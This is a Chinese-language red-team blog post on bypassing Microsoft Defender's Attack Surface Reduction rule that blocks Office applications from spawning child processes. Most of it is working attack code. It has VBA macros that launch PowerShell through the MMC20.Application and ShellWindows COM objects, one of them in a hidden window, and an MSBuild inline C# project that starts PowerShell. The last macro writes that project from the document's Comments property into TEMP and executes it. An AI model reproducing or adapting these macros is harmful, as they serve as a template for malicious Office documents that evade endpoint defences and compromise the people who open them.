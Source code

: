 ```yaml
---
title: 红蓝对抗-Office ASR Bypass
date: 2022-10-30
categories: [红蓝对抗]
tags: [红蓝对抗, Windows, ASR, Bypass]
---
```


## 0X00 什么是ASR

[Attack Surface Reduction](https://docs.microsoft.com/en-us/windows/security/threat-protection/microsoft-defender-atp/attack-surface-reduction)(**ASR**)是微软推出一组**Windows defender**强化配置，旨在减缓攻击者常用的攻击技术。**ASR**规则在**LUA**中实现，并由**Windows Defender**执行。它们具体如下：

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/asr.png)

更加详细的细节可以在这个地方查看[https://learn.microsoft.com/zh-cn/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide](https://learn.microsoft.com/zh-cn/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide)(当然也可以点段首的加粗字体跳转)

 这些规则中的许多规则可以组合使用，当然我们可以单独绕过某一规则，但它仍然有可能被另一规则所阻止。本文演示的是在**Office**下的Bypass。 

## 0x01 Block Office Processes

这个规则即阻止所有**Office**应用程序创建子进程，这包括**Word**、**Excel**、**PowerPoint**、**OneNote**和**Access**

在我们创建生成宏文档并让他运行**PowerShell** **payload**的时候，一般是下面的代码

```vb
Sub Asr()
    Dim wsh As Object
    Set wsh = CreateObject("WScript.Shell")
    wsh.Run "powershell"
    Set wsh = Nothing
End Sub
```

但是这样容易被**Windows**本身的**defender**发现并把他无情的查杀。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/defender.png)

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/defender2.png)

## 0x02  COM Bypass

解决这个问题的一种方法是使用**COM**，我们可以直接从**VBA**实例化一个**COM**对象来达到绕过ASR的查杀的目的。因此我们可以考虑利用那些我们知道会导致代码执行的对象。然而并不是每个**COM**对象都可以进行代码执行，只有设置**LocalServer32**，以便进程具有不是**Office**应用程序的父进程才可以。例如，**MMC20.Application**对象会使用**mmc.exe**作为父进程，而**ShellWindows**和**ShellBrowserWindow**的**ShellExecute**方法都将使用**explorer.exe** 作为父进程。
下面是一个使用**MMC20**的方法： 

```vb
Sub Asr()
    Dim mmc As Object
    Set mmc = CreateObject("MMC20.Application")
    mmc.Document.ActiveView.ExecuteShellCommand "powershell", "", "", "7"
    Set mmc = Nothing
End Sub
```

**mmc.exe**会马上关闭，从而生成没有父进程的**PowerShell**

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/ps.png)

下面是使用**ShellWindows**的方法：

```vb
Sub Asr()
    Dim com As Object
    Set com = GetObject("new:9BA05972-F6A8-11CF-A442-00A0C90A8F39")
    com.Item.Document.Application.ShellExecute "powershell", "", "", Null, 0
    Set com = Nothing
End Sub
```

与之前的相比，这个会生成一个隐藏的**PowerShell**进程，并且它将会作为**explorer.exe**的子进程运行。就之前的方法来说，这种方法提高了隐蔽性。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/ps2.png)

## 0x03  LOLBAS

ASR规则实际上是基于某种黑名单的来实现的，我们可以尝试打开一个记事本来验证我们的猜想。

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/notepad.png)

**Windows defender**没有拦截，所以我们上述的想法成立。

因此我们可以大胆猜测这里可能会有使用基于命令行的执行的办法，笔者在这里使用了[LOLBAS项目](https://lolbas-project.github.io/#)，经过简单的测试，发现**[MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)**没有被拦截(其他的可以自行测试)。

[MSBuild](https://lolbas-project.github.io/lolbas/Binaries/Msbuild/)可以从.xml或.csproj文件执行内联C#代码。可以在这里去查看**MSBuild**的结构[https://learn.microsoft.com/zh-cn/visualstudio/msbuild/msbuild-project-file-schema-reference?view=vs-2022](https://learn.microsoft.com/zh-cn/visualstudio/msbuild/msbuild-project-file-schema-reference?view=vs-2022)

我们可以通过以下方法去实现：

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<Target Name="MSBuild">
<ASRSucks /> 
</Target> 
<UsingTask
  TaskName="ASRSucks"
  TaskFactory="CodeTaskFactory"
  AssemblyFile="C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
  <Task>
    <Code Type="Class" Language="cs">
    <![CDATA[
      using System;
      using Microsoft.Build.Framework;
      using Microsoft.Build.Utilities;

      public class ASRSucks : Task, ITask
      {         
        public override bool Execute()
        {
            Console.WriteLine("tested by 二两");
            return true;
        } 
      }     
    ]]>
    </Code>
  </Task>
 </UsingTask>
</Project>
```

我们可以通过这种方式去运行

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\msbuild.exe test.xml
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/xml.png)

那么接下来就是怎么去利用word宏去执行我们的恶意代码，我们可以将xml提前放在电脑的某个位置(例如temp目录，然后通过宏执行)

```xml
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
<Target Name="MSBuild">
<ASRSucks /> 
</Target> 
<UsingTask
  TaskName="ASRSucks"
  TaskFactory="CodeTaskFactory"
  AssemblyFile="C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
  <Task>
    <Code Type="Class" Language="cs">
    <![CDATA[
      using System.Diagnostics;
      using Microsoft.Build.Framework;
      using Microsoft.Build.Utilities;

      public class ASRSucks : Task, ITask
      {         
        public override bool Execute()
        {
            Process.Start("powershell");
            return true;
        } 
      }     
    ]]>
    </Code>
  </Task>
 </UsingTask>
</Project>
```

```vb
Sub Asr()
    Dim comment As String
    Dim wsh As Object
    Dim temp As String
    Dim command As String
    
    temp = LCase(Environ("TEMP"))
    comment = ActiveDocument.BuiltInDocumentProperties("Comments").Value
    Set wsh = CreateObject("WScript.Shell")
    command = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe " & temp & "\test.xml"
    wsh.Run command
End Sub

```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/ps3.png)

当然，这些代码会一直保持在temp目录下面，我们可以增加一点东西把它删除

```vb
Sub Asr()
    Dim comment As String
    Dim fSo As Object
    Dim dropper As Object
    Dim wsh As Object
    Dim temp As String
    Dim command As String
    
    temp = LCase(Environ("TEMP"))
    
    Set fSo = CreateObject("Scripting.FileSystemObject")
    Set dropper = fSo.CreateTextFile(temp & "\test.xml", True)
    
    comment = ActiveDocument.BuiltInDocumentProperties("Comments").Value
    
    dropper.WriteLine comment
    dropper.Close
    
    Set wsh = CreateObject("WScript.Shell")
    
    command = "C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe " & temp & "\test.xml"
    
    wsh.Run command
    
    Set fSo = Nothing
    Set dropper = Nothing
    Set wsh = Nothing
End Sub
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2022-10-30/res.png)

## 0x04 小结

本文介绍了在ASR规则下，Office在执行宏中的绕过。当然以上有些方法在不同版本的Windows中处理生成也会有所不同，具体的不同可以去自行测试。

### 注：本文仅用于安全研究和学习之用